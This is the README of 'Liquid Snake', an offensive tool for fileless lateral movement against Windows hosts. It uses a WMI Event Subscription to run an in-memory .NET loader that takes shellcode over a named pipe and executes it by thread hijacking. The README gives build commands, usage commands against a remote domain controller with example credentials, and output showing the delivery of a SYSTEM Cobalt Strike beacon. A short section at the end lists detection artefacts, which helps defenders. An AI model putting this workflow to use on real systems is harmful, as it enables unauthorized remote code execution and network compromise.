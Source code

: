 # Liquid Snake

Liquid Snake is a program aimed at performing lateral movement against Windows systems without touching the disk.
The tool relies on WMI Event Subscription in order to execute a .NET assembly in memory, the .NET assembly will listen for a shellcode on a named pipe and then execute it using a variation of the thread hijacking shellcode injection.

The diagram below (hopefully) clarifies the flow of data:

![](images/poc.jpeg)


## Credits 

- [MDSec - WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - this tool is merely an implementation of the concept described in this blog post, the code also relies on Dominic's WMI persistence C Sharp PoC
- [pwndizzle - thread-hijack.cs](https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/thread-hijack.cs) - for inspiration on the thread hijacking implementation in C Sharp
- [med0x2e - GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) - for the monstrous work of creating GadgetToJScript

## Intro 

The project is composed by two separate solutions:

- `CSharpNamedPipeLoader` - the component that will be transformed in VBS via GadgetToJScript
- `LiquidSnake` - the component responsible to creating the WMI Event Subscription on the remote system

## Building

Simply open both solutions in Visual Studio and build them. Make sure to target x64 architecture for the `CSharpNamedPipeLoader`. If everything went fine, you should have two separate EXEs: CSharpNamedPipeLoader.exe and LiquidSnake.exe

Using GadgetToJscript, convert the `CSharpNamedPipeLoader.exe` to VBS using the following command:

```
GadgetToJScript.exe -a CSharpNamedPipeLoader.exe -b -w vbs
```

Test the .NET deserialisation using `cscript.exe` and ensure that everything works as expected:

```
cscript.exe test.vbs
```

Then, base64 encode the vbs file and stick it in the LiquidSnake's Program.cs `vbscript64` variable at line 29. 

I already made this for you so you can just compile the LiquidSnake solution and use it as it is. 

## Usage 

Usage of this project is straightforward, use `LiquidSnake.exe` agains a host where you have administrative access over as follows:

```
LiquidSnake.exe <host> [<username> <password> <domain>]
LiquidSnake.exe dc01.isengard.local
LiquidSnake.exe dc01.isengard.local saruman DeathToFrodo123 isengard.local
```

NOTE: Currently thers is a bug when you explicitly set user credentials, the tool will not work in that case. It is recommended to use `make_token` or any other impersonation mechanism instead.

If everything went fine, you should obtain an output similar as the following:

```
[*] Event filter created.
[*] Event consumer created.
[*] Subscription created, now sleeping
[*] Sending some DCOM love..
[*] Sleeping again... long day
```

The example above uses CobaltStrike's `execute-assembly` to launch LiquidSnake:

![](images/2021-08-31-16-42-30.png)

Meanwhile, in the remote host a new named pipe will be created with the following name:

```
\\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7
```

![](images/2021-08-31-16-43-15.png)

Then, using my `send_shellcode_via_pipe` [project from my BOFs](https://github.com/RiccardoAncarani/BOFs/tree/master/send_shellcode_via_pipe) you can send an arbitrary shellcode on the remote pipe that will be loaded and executed:

```
send_shellcode_via_pipe \\dc01\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7 beacon.bin 
```

![](images/2021-08-31-16-41-25.png)

If everything worked as expected, you should obtain a SYSTEM beacon:

![](images/2021-08-31-16-41-05.png)

NOTE: The current LiquidSnake version contains artefact generated by GadgetToJScript that targets .NET version 4.x. If your target host has only 3.5 installed, this will fail. Simply repeat the same process but using the appropriate .NET version when building GadgetToJScript.


## Detection

There are many detection opportunities to identify the abuse of this tool and in general the use of this technique:

- Creation and deletion of a WMI Event Filter in a short period of time, see Sysmon event IDs 19, 20, 21, 22
- Module load events for `clr.dll` related to the `scrcons.exe` process
- Creation of a named pipe related to the `scrcons.exe` process 

Additionally, the biggest drawback of the specific implementation is that the shellcode is sent in cleartext over SMB. Meaning that if a network monitor solution is able to inspect that traffic, it is likely that it will stand out. I haven't done much testing against zeek/bro ruleset but I am pretty confident that it will be picked up immediately.

In the `detection-artefacts` folder I left the PCAP file of a Wireshark capture and the Sysmon events generated during the attack (using Swift On Security's default config).